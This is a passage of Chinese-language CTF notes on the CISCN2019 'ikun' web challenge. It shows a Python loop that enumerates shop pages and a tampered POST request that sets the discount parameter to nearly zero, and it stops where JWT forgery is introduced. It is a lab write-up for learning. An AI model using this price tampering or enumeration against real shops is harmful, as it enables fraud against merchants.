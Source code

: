 
![image-20220807224733801](D:\Typora\note\CTF\web\ciscn.assets\image-20220807224733801.png)

高大上的界面，和之前一题ip很像，但就是一个很简单很简单的SSTL
完全无故过滤，直接传XFF得到flag



## [CISCN2019 华北赛区 Day1 Web2]ikun

<font color='pink'>做ciscn的题真的可以学到很多</font>

### 考点

py脚本，jwt伪造，py反序列化

### 购买lv6账号

![image-20220812142949212](D:\Typora\note\CTF\web\ciscn.assets\image-20220812142949212.png)

一开始是在这个页面，通过py改最上面的数字来找到lv6，但是这个页面购买没有优惠，无法买到lv6
`http://3c5a49e2-56fc-4328-96fa-330f067ee634.node4.buuoj.cn:81/shop?page=2`
只能通过这样的方法来找lv6

```py
import requests
import time

a='[+]running:'
for i in range(1,1000):
    url=f'http://3c5a49e2-56fc-4328-96fa-330f067ee634.node4.buuoj.cn:81/shop?page={i}'
    r=requests.get(url)
    time.sleep(0.04)
    if'lv6.png'in r.text:
        print('[+]done:'+url)
        break
    else:
        print(a+url)


[+]done:http://3c5a49e2-56fc-4328-96fa-330f067ee634.node4.buuoj.cn:81/shop?page=180
```

HackBar抓包改折扣

```
POST _xsrf=2%7Ca3bbe903%7Cc7e7316d86e9dba91a750c9e5b809b35%7C1660274976&discount=0.00000000000000000000001&id=1624&price=1145141919.0
```

### JWT伪造

然后进入**/b1g_m4mber**目录，提示只有admin才能访问
看cookie里面有**JWT**，很明显是**JWT伪造**
